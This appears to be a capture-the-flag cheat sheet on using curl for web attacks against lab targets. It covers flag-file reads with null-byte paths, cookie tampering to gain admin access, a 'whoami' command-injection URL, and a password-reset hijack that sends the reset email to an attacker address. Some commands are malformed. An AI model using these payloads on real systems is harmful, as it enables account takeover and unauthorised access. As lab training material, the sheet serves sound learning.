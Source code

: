 ```yaml
---
title: cURL
description:  cURL is a command-line tool and library for transferring data using various network protocols
---
```


## Curl headers
```bash
curl http://10.10.129.69 -v
```

## POST Requests
```bash
Curl -X POST http://10.10.122.123/challenges/chal1.php -d 'method=GET&file=/etc/flag1'
curl -X POST http://10.10.14.127/challenges/chall3.php -d 'method=POST&file=/etc/flag3%00' --output -
```

## Cookie Tampering
```bash
┌──(attacker㉿kali)-[~]
└─$ curl http://10.10.75.26/cookie-test
>Not Logged In 

┌──(attacker㉿kali)-[~]
└─$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.75.26/cookie-test
>Logged In As A User     

┌──(attacker㉿kali)-[~]
└─$ curl -H "Cookie: logged_in=true; admin=true" http://10.10.75.26/cookie-test
>Logged In As An Admin - FLAG{COOKIE_TAMPERING}  
```

## Command injection
curl is a great way to test for command injection because you are able to use curl to deliver data to and from an application in your payload
```bash
curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami
```

## Password Resets 

```bash
$ curl'http://10.10.75.26/customers/reset?email=robert%40acmeitsupport.thm'-H'Content-Type: application/x-www-form-urlencoded'-d'username=robert'
```
We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```bash
$ curl'http://10.10.75.26/customers/reset?email=robert%40acmeitsupport.thm'-H'Content-Type: application/x-www-form-urlencoded'-d'username=robert&email=attacker@hacker.com'
```
For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}@customer.acmeitsupport.thm`

```bash
$ curl'http://10.10.75.26/customers/reset?email=robert@acmeitsupport.thm'-H'Content-Type: application/x-www-form-urlencoded'-d'username=robert&email={username}@customer.acmeitsupport.thm'
```
